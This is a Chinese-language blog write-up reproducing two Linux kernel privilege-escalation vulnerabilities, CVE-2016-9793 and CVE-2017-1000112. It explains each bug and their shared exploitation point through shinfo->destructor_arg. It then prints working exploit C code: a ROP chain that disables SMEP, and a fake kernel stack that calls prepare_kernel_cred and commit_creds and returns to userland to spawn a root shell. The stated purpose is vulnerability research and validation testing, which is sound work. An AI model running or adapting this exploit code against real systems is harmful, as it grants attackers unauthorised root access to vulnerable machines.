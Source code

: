 # CVE-2016-9793与CVE-2017-1000112复现学习

### 背景

近期工作中需要对一些已知的内核提权漏洞进行复现和有效性测试，因此对一些有cve编号的内核提权漏洞进行了学习。参考xairy大神的repo，逐一研究这些漏洞的利用过程。

其中，大神的两个漏洞CVE-2016-9793和CVE-2017-1000112，漏洞利用的原理和过程非常相似。在这里对复现过程进行简单的记录和思考。

### 技术细节

CVE-2016-9793是一个内核socket模块中的整形溢出漏洞，主要细节在于使用SO_SNDBUFFORCE标签对sk_sndbuf进行赋值时，可以使用u32变量来溢出int32整形变量。
当传入一个非法的值0xffffff00时，内核对该非法输入进行了一系列错误操作，导致最后内核会引用一个用户空间可控的skb_shared_info对象指针。攻击者通过在用户空间mmap到对应的对象指针地址，并为shinfo->destructor_arg这个变量赋值来控制PC指针的跳转，从而完成控制流的获取。

CVE-2017-1000112是一个内核越界写漏洞，攻击者通过构造一个恶意UFO packet来诱使skb_copy_and_csum_bits()函数执行越界写操作，从而获取一个可控的skb_shared_info对象。同理，利用shinfo->destructor_arg这个变量来劫持kernel的控制流，达到权限提升的目的。

### 漏洞利用

在利用这两个漏洞的过程中，利用点是一致的，都是使用一个可控的shinfo->destructor_arg变量来获取控制流。但是即使能够完成对内核PC指针的控制，还是要继续绕过KASLR和SMEP等缓解措施。

xairy大神在原始的POC代码中，提供了一个Disable SMEP的ROP chain。但是在实际运行过程中，这个Disable过程好像并没有起作用，内核仍然限制运行用户空间地址的代码。

{% highlight c %}
#define SMEP_MASK 0x100000

#define CHAIN_DISABLE_SMEP			\
	*stack++ = MOV_RAX_CR4_RET;		\
	*stack++ = NEG_RAX_RET;			\
	*stack++ = POP_RCX_RET;			\
	*stack++ = SMEP_MASK;			\
	*stack++ = OR_RAX_RCX_RET;		\
	*stack++ = NEG_RAX_RET;			\
	*stack++ = XCHG_EAX_EDI_RET;		\
	*stack++ = MOV_CR4_RDI_RET;
{% endhighlight %}

这里面的问题可能需要继续调试，确认控制寄存器CR4的值是否确实被改写了。这个问题留到后面去研究，正好之前学习了kernel rop的利用链，所以我这里直接放弃了改写CR4，而是直接构造一个虚假的内核stack来执行kernel rop。

以CVE-2017-1000112的POC代码为例，构造一个fake kernel stack来执行kernel rop的利用代码如下：

{% highlight c %}


void mmap_stack() {
	uint64_t stack_aligned, stack_addr;
	int page_size, stack_size, stack_offset;
	uint64_t* stack;

	page_size = getpagesize();

	stack_aligned = (XCHG_EAX_ESP_RET & 0x00000000fffffffful) & ~(page_size - 1);
	stack_addr = stack_aligned - page_size * 4;
	stack_size = page_size * 8;
	stack_offset = XCHG_EAX_ESP_RET % page_size;

	stack = mmap((void*)stack_addr, stack_size, PROT_READ | PROT_WRITE,
			MAP_FIXED | MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
	if (stack == MAP_FAILED || stack != (void*)stack_addr) {
		perror("[-] mmap()");
		exit(EXIT_FAILURE);
	}

	stack = (uint64_t*)((char*)stack_aligned + stack_offset);
    /*
	CHAIN_SAVE_ESP;
	CHAIN_DISABLE_SMEP;
	CHAIN_JMP_PAYLOAD;
    */
    void* temp_stack;
	assert((temp_stack = mmap((void*)0x30000000, 0x40000, 7, 0x32, 0, 0)) == (void*)0x30000000);

    save_state();
	*stack ++= POP_RDI_RET; /* pop %rdi; ret */

	stack = (uint64_t*)((char*)stack_aligned + stack_offset + 8 + 0x144);

	*stack ++= 0x0UL;                /* NULL */
	*stack ++= PREPARE_KERNEL_CRED; /* prepare_kernel_cred() */

	*stack ++= POP_RDX_RET; /* pop %rdx; ret */
	*stack ++= COMMIT_CREDS; // commit_creds() + 2 instructions

	*stack ++= MOV_RDI_RAX_CALL_RDX; /* mov %rax, %rdi; call %rdx */

    *stack ++= SWAPGS_POP_RBP_RET; // swapgs ; pop rbp ; ret
    *stack ++= 0xdeadbeefUL;         // dummy placeholder

	*stack ++= IRETQ; /* iretq */
	*stack ++= (uint64_t)shell; /* spawn a shell */
	*stack ++= user_cs;              /* saved CS */
	*stack ++= user_rflags;          /* saved EFLAGS */
	*stack ++= (uint64_t)(temp_stack+0x20000);  /* mmaped stack region in user space */
    *stack ++= user_ss;              /* saved SS */

}


{% endhighlight %}

改写后的POC即使没有关闭SMEP保护，但是仍然能完成后续的权限提升操作，运行效果如下图所示：
![cve-2017-1000112](http://7xwdx7.com1.z0.glb.clouddn.com/exp-cve-2017-1000112.png)
